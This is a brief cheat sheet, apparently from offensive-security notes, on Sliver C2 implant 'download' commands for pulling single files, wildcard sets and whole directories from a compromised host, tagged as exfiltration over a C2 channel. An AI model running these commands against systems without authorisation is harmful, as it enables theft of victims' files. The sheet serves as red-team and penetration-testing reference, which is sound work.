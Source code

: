 # Sliver

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #sliver #T1041

## Download Files

* Download single file.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

- Download the whole directory. It'll compress into a tarball archive file (`.tar`).

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

---
## References

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)